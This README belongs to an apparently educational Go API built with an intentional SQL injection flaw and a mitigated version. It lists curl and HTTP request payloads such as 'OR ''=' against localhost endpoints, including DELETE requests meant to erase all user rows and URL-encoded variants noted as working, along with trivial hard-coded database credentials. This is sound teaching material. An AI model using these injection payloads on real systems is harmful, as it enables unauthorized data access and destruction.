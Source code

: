 # Dummy API  
    
API written in Golang with SQL injection vulnerability and level code mitigation.

## Run Database

    docker-compose up -d
    docker-compose down
    docker-compose down -v --rmi all

    CURRENT_UID=$(id -u):$(id -g) docker-compose up (colima in Mac OS)

##

    DSN="host=localhost port=54327 user=postgres password=password dbname=sqli sslmode=disable timezone=UTC connect_timeout=5" go run ./cmd/api


## Run API with Makefile (Development environment)

    make start
    make stop
    make build
    make clean
    make restart

    go run ./cmd/api  (Actually disabled)


## Database container (With Docker)

```
docker run \
  -d \
  --name postgres_sqli_eafit \
  -e POSTGRES_HOST_AUTH_METHOD=trust \
  -e POSTGRES_USER=user \
  -e POSTGRES_PASSWORD=password \
  -e POSTGRES_DB=sqli \
  -p 54325:5432 \
  diegoall1990/sqli-pg-db
```

    docker exec -it postgres_sqli_eafit psql -U postgres -d sqli
    docker exec -it linux_postgres_sqli_eafit psql -U postgres -d sqli


## SQL injection scenario


Error based sql Injection

    https://go.dev/doc/database/sql-injection

    https://go.dev/doc/database/querying

    https://mariocarrion.com/2021/10/22/golang-software-architecture-security-databases-sql-injection-permissions.html


### Payloads

Non Compliant code

    localhost:9090/vulnerable/users?id=17' OR ''='

    curl -k localhost:9090/vulnerable/users?id=16' OR ''='

    curl -X DELETE "localhost:9090/vulnerable/users?id=16'"

    curl -X DELETE "localhost:9090/vulnerable/users?id=16'"



## FindUser with SQL Injection
GET http://localhost:8080/users?id='1'OR'1'='1' HTTP/1.1
content-type: application/json

###

## FindUser correct
GET http://localhost:8080/users/correct?id=2 HTTP/1.1
content-type: application/json

###

## DeleteUser with SQL Injection
DELETE http://localhost:8080/users?id='1'OR'1'='1' HTTP/1.1
content-type: application/json
                
                localhost:9090/vulnerable/users?id=3' OR ''='
                localhost:9090/vulnerable/users?id=17' OR ''='
curl -X DELETE "localhost:9090/vulnerable/users?id='16'OR'1'='1' NO
curl -X DELETE "localhost:9090/vulnerable/users?id=16' OR ''='

curl -X DELETE "localhost:9090/vulnerable/users?id='16'OR'1'='1'" 

###

## DeleteUser correct
DELETE http://localhost:8080/users/correct?id=5 HTTP/1.1
content-type: application/json



docker-compose down -v --rmi all


ESCAPAR UNA COMILLA SIMPLE.

EScapar comillas

Payload codificado
percent-encoding (URL encoding)
curl -X DELETE "http://localhost:9090/vulnerable/users?id=3%27%20OR%20%27%27=%27"  SI FUNCIONO
curl -X DELETE localhost:9090/vulnerable/users?id=3%27%20OR%20%27%27=%27  SI FUNCIONO

Compliant code

    localhost:9090/users?id=46' OR ''='


## API collection

You can find the API collections [here](SQL-Injection-EAFIT.postman_collection.json)



















